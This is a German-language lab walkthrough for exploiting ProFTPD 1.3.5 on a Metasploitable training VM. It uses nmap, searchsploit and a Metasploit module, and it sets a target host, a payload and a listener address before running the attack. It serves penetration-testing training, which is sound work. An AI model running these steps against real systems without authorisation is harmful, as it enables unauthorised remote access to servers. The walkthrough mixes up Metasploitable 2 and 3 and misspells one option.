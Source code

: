 # FTP

## Nmap-Scan

Als erstes sollte ein Nmap-Scan durchgeführt werden, um zu sehen, ob der Metasploitable 2 Server FTP hat:

``` bash
nmap -sV -sC <IP-Adresse>
```

![Bild01.jpg](/images/Metaspolitable-3/FTP/Bild01.jpg)

## Bash-Exploit-Suche

Um zu kontrollieren, ob es einen Exploit gibt, kann man den folgenden Befehl ausführen:

``` bash
searchsploit ProFTPD 1.3.5
```

![Bild02.jpg](/images/Metaspolitable-3/FTP/Bild02.jpg)

## Starten der Metasploit-Konsole

Wenn man einen Exploit gefunden hat, der mit Metasploit funktioniert, kann man das Metasploit-Tool verwenden, um den Exploit zu starten. Dafür muss man zuerst die Metasploit-Konsole starten:

``` bash
msfconsole
```

![Bild03.jpg](/images/Metaspolitable-3/FTP/Bild03.jpg)

## Suche nach dem Exploit in der Metasploit-Konsole

Nachdem die Konsole gestartet wurde, muss man noch einmal nach dem Exploit suchen:

``` bash
search ProFTPD 1.3.5
```

![Bild04.jpg](/images/Metaspolitable-3/FTP/Bild04.jpg)

## Auswahl des Exploits

Um den Exploit auszuwählen, gibt man den folgenden Befehl ein (0 = die Nummer des Exploits in der Liste):

``` bash
use 0
```

![Bild05.jpg](/images/Metaspolitable-3/FTP/Bild05.jpg)

## Anzeigen von Optionen

Mit dem folgenden Befehl kann man sich die zu konfigurierenden Optionen anzeigen lassen:

``` bash
show options
```

![Bild06.jpg](/images/Metaspolitable-3/FTP/Bild06.jpg)

## Optionen setzen

Danach kann man mit dem folgenden Befehl die Option setzen:

``` bash
set RHOSTS <IP-Adresse>
```

![Bild07.jpg](/images/Metaspolitable-3/FTP/Bild07.jpg)

``` bash
set sitepath /var/html/www
```

![Bild08.jpg](/images/Metaspolitable-3/FTP/Bild08.jpg)

Alle Payloads anzeigen:

``` bash
show payloads
```

![Bild09.jpg](/images/Metaspolitable-3/FTP/Bild09.jpg)

``` bash
set payload 5
```

![Bild10.jpg](/images/Metaspolitable-3/FTP/Bild10.jpg)

``` bash
show options
```

![Bild11.jpg](/images/Metaspolitable-3/FTP/Bild11.jpg)

``` bash
set lhosts <IP-Adresse>
```

![Bild12.jpg](/images/Metaspolitable-3/FTP/Bild12.jpg)

## Starten des Exploits

Zum Schluss muss man mit dem folgenden Befehl den Exploit starten:

``` bash
run
```

![Bild13.jpg](/images/Metaspolitable-3/FTP/Bild13.jpg)